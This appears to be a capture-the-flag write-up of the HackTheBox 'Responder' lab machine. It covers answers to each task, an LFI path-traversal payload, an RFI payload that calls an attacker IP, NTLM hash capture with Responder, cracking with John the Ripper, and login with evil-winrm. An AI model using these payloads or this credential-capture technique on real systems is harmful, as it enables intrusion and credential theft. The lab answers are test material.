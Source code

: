 ```yaml
---
title: "Responder"
description: This is a writeup on the Responder machine from HackTheBox Starting point Tier1 level.
date: 2024-09-19
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Why did the hacker bring a map to the server? Because they were trying to locate the LFI and remotely call the RFI! 😄" # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier1, Starting point]
---
```

# Introduction

![Untitled.jpg](Untitled.jpg)

## Task 1

When visiting the web service using the IP address, what is the domain that we are being redirected to?

First we had to scan the IP for open ports only to find port was open as shown below.

![image.png](image.png)

on visiting the web page, we are directed to the following domain.

![image.png](image%201.png)

unika.htb

In order to be able to access the webpage on our machine, we are required to add it to the 

```jsx
etc/hosts directory
```

![image.png](image%202.png)

and now we are able to see the page.

![image.png](image%203.png)

## Task 2

Which scripting language is being used on the server to generate webpages?

![image.png](image%204.png)

PHP

## Task 3

What is the name of the URL parameter which is used to load different language versions of the webpage?

![image.png](image%205.png)

page

## Task 4

Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "[//10.10.14.6/somefile](https://10.10.14.6/somefile)", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

![image.png](image%206.png)

../../../../../../../../windows/system32/drivers/etc/hosts

## Task 5

Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "[//10.10.14.6/somefile](https://10.10.14.6/somefile)", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

![image.png](image%207.png)

[//10.10.14.6/somefile](https://10.10.14.6/somefile)

## Task 6

What does NTLM stand for?

![image.png](image%208.png)

New Technology LAN Manager

## Task 7

Which flag do we use in the Responder utility to specify the network interface?

![image.png](image%209.png)

-I

## Task 8

There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

![image.png](image%2010.png)

John The Ripper

## Task 9

What is the password for the administrator user?

For this section, we had to serve a file and set responder ready to catch a credential when the web-server tries to access the file from our machine by exploiting remote file inclusion vulnerability as shown below

![image.png](image%2011.png)

the file we were serving is called somefile that contains nothing at all

![image.png](image%2012.png)

After a while  when the web server was trying to access the file from our machine, responder caught some credentials of which seems to be of an admin.

![image.png](image%2013.png)

![image.png](image%2014.png)

Now next we shall try to crack the admin hash to get the password for the admin using john the ripper.

![image.png](image%2015.png)

After cracking it, we got the password, as seen below.

![image.png](image%2016.png)

badminton

## Task 10

We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

Here we are required to do further enumeration to get the other port that is open 

![image.png](image%2017.png)

5985

From the port above, it is clear that we can log in to the machine using evil-winrm to get our root flag.

![image.png](image%2018.png)

our flag was under the user mike’s Desktop as shown below

![image.png](image%2019.png)